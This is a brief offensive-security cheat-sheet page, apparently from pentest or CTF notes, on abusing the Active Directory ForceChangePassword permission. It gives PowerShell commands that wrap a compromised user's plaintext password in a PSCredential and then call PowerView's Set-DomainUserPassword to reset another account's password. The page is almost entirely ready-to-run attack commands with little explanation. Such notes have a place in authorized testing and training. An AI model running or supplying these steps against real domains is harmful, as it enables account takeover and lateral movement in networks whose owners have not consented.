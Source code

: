 # ForceChangePassword

## <mark style="color:yellow;">Creating PSCredentials object</mark>

If we do not run PowerShell as other user, we may put their creds to secure PS object so we can impersonate him.&#x20;

1. With first command we are converting a plaintext password to SecureString (which protecting creds from memory reading).
2. With second command we are putting that SecureString into PSCredentials object for further use.

```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'h4ck4allth3th1ngs' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('MILITECH\sreed', $SecPassword)
```

## <mark style="color:yellow;">Changing the user's password</mark>

Here are are making a SecureString for new **songbird's** password and changing it using **sreed's** credentials in <mark style="color:green;">`-Credential $Cred`</mark>. <mark style="color:orange;">**PowerView Required!**</mark>

```powershell
PS C:\> $songbirdPassword = ConvertTo-SecureString 'S4MUR41' -AsPlainText -Force
PS C:> Set-DomainUserPassword -Identity songbird -AccountPassword $songbirdPassword -Credential $Cred -Verbose
```

